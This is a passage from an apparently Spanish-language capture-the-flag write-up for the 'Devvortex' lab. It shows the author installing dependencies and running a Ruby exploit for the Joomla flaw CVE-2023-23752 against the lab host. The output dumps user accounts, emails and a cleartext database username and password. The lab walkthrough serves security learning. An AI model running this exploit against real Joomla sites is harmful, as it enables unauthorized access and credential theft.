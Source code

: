 ingresamos
❯ cd exploit-CVE-2023-23752

❯ ls
assets  docker-compose.yml  exploit.rb  Gemfile  Gemfile.lock  LICENSE  README.md

instalamos la siguiente dependencia

❯ gem install httpx docopt paint

Fetching httpx-1.1.5.gem
Fetching http-2-next-1.0.1.gem
Successfully installed http-2-next-1.0.1
Successfully installed httpx-1.1.5
Parsing documentation for http-2-next-1.0.1
Installing ri documentation for http-2-next-1.0.1
Parsing documentation for httpx-1.1.5
Installing ri documentation for httpx-1.1.5
Done installing documentation for http-2-next, httpx after 2 seconds
Fetching docopt-0.6.1.gem
Successfully installed docopt-0.6.1
Parsing documentation for docopt-0.6.1
Installing ri documentation for docopt-0.6.1
Done installing documentation for docopt after 0 seconds
Fetching paint-2.3.0.gem
Successfully installed paint-2.3.0
Parsing documentation for paint-2.3.0
Installing ri documentation for paint-2.3.0
Done installing documentation for paint after 0 seconds
4 gems installed

ejecutamos el exploit de la siguiente manera:

❯ ruby exploit.rb http://dev.devvortex.htb
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered
[651] Roan (rnt) - qweqwe@qew.com - Super Users

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
